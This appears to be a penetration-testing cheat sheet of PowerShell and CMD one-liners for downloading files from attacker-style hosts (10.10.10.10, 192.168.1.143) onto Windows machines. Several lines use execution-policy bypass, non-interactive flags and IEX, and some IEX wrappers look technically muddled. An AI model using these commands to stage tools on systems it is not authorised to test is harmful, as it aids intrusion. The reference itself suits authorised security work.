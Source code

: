 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Download**
	
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Powershell Direct URI**
	
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Web Content Download**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Powershell Wget**
	
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
	
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"	

**Web Content Download**
	
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
	
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Using file**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------

#### 


USING CMD - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.143/1.txt','c:\temp\1.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'C:\temp\1.txt'"

**Web Content Download**
	
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')"

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"


